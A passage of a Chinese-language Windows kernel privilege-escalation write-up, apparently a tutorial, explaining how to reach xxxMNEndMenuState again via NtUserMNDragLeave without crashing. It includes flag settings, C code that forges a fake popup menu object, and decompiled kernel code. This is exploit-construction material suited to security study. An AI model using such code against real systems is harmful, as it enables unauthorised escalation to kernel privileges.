
当目前为止，我们已经知道该如何提权了，接下来我们要做的就是不要让程序崩溃，只要让程序正常运行完，那么提权将得以成功。

因为我们的程序是从 NtUserMNDragLeave 二次进入 xxxMNEndMenuState 的。所以我们可以从 NtUserMNDragLeave 开始设置一些东西让程序得以正常运行。

首先，为使在稍后位置调用的系统服务 NtUserMNDragLeave 能依据伪造的根弹出菜单对象再次进入函数 xxxMNEndMenuState 调用，需要将伪造对象的成员域 flags 进行稍微设置，将关键标志位置位，其余标志位置零。

```c
[...]
+0x000 fIsTrackPopup    : 0y1
[...]
+0x000 fFirstClick      : 0y1
[...]
+0x000 fDestroyed       : 0y1
+0x000 fDelayedFree     : 0y1
[...]
+0x000 fInCancel        : 0y1
[...]
```

其次，因为 xxxMNEndMenuState 还要对伪造的根弹出菜单对象的成员进行操作，所以我们需要伪造一个合法的地址，并且在执行完解锁操作后不能让它的锁计数为 0，不然调用销毁函数又要出问题。

```c
DWORD dwPopupFake[0xD] = { 0 };
dwPopupFake[0x0] = (DWORD)0x00098208;  //->flags
dwPopupFake[0x1] = (DWORD)pvHeadFake;  //->spwndNotify
dwPopupFake[0x2] = (DWORD)pvHeadFake;  //->spwndPopupMenu
dwPopupFake[0x3] = (DWORD)pvHeadFake;  //->spwndNextPopup
dwPopupFake[0x4] = (DWORD)pvAddrFlags - 4; //->spwndPrevPopup // 减的是 4 个 DOWRD 的距离
dwPopupFake[0x5] = (DWORD)pvHeadFake;  //->spmenu
dwPopupFake[0x6] = (DWORD)pvHeadFake;  //->spmenuAlternate
dwPopupFake[0x7] = (DWORD)pvHeadFake;  //->spwndActivePopup
dwPopupFake[0x8] = (DWORD)pvHeadFake;  //->ppopupmenuRoot
dwPopupFake[0x9] = (DWORD)pvHeadFake;  //->ppmDelayedFree
dwPopupFake[0xA] = (DWORD)pvHeadFake;  //->posSelectedItem
dwPopupFake[0xB] = (DWORD)pvHeadFake;  //->posDropped
dwPopupFake[0xC] = (DWORD)0;
```

看到 MNEndMenuStateNotify 函数

```c
signed int __stdcall MNEndMenuStateNotify(tagMENUSTATE *a1)
{
  tagWND *v1; // eax
  tagTHREADINFO *v2; // eax

  v1 = a1->pGlobalPopupMenu->spwndNotify;
  if ( !v1 )
    return 0;
  v2 = v1->head.pti;
  if ( v2 == a1->ptiMenuStateOwner )
    return 0;
  v2->pMenuState = 0;
  return 1;
}
```
